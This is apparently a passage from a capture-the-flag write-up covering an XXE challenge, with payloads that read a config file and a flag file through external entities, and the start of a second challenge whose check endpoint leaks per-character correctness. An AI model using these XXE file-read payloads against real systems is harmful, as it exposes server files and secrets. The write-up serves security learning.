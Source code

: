 3. Follow configuration hints

From app.py, we see it references `/etc/superapp/config.xml`. Let’s dump it:

```
<?xml version="1.0"?>
<!DOCTYPE root [ <!ENTITY x SYSTEM "file:///etc/superapp/config.xml"> ]>
<root>&x;</root>
```

<img width="822" height="736" alt="image" src="https://github.com/user-attachments/assets/b38a8874-bdfb-42da-9daf-e6f0d574cb9f" />

```
<root><configuration>     <database>         <host>localhost</host>         <user>db_user</user>     </database>     <logging>                 <secret_storage_path>/var/data_archive/secret/flag.txt</secret_storage_path>     </logging> </configuration>
</root>
```
#### Flag

4. Exfiltrate the flag

```
<?xml version="1.0"?>
<!DOCTYPE root [ <!ENTITY x SYSTEM "file:///var/data_archive/secret/flag.txt"> ]>
<root>&x;</root>
```

Finally, retrieve the flag directly:

```
n3xt{xxe_1s_n0t_s0_3xt3rn4l}
```

### flag.txt

<img width="600" height="416" alt="image" src="https://github.com/user-attachments/assets/78ddbe62-7563-49fc-ac7e-7ed98121ab6e" />

This challenge require us to type `flag.txt` to get flag. 
And the page sends what you type to `/check` and the server replies per-character with status: **"correct" | "incorrect"**

<img width="945" height="562" alt="image" src="https://github.com/user-attachments/assets/17628ed7-d00b-40e7-b173-d59fbd092e11" />

```js
        try {
            const response = await fetch('/check', {
                method: 'POST',n
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({ input: attemptString })
            });
            const data = await response.json();
            let incorrectCharsFound = false;

            data.validation.forEach((item, index) => {
                const input = inputs[index];
                input.classList.remove('correct', 'incorrect');
                if (item.status === 'correct') {
                    input.classList.add('correct');
                } else if (item.status === 'incorrect') {
                    input.classList.add('incorrect');
                    incorrectCharsFound = true;
                }
            });
            
            if (incorrectCharsFound) {
                 feedbackText.textContent = "Error: Incorrect filename.";
                 feedbackText.style.color = "#da3633";
```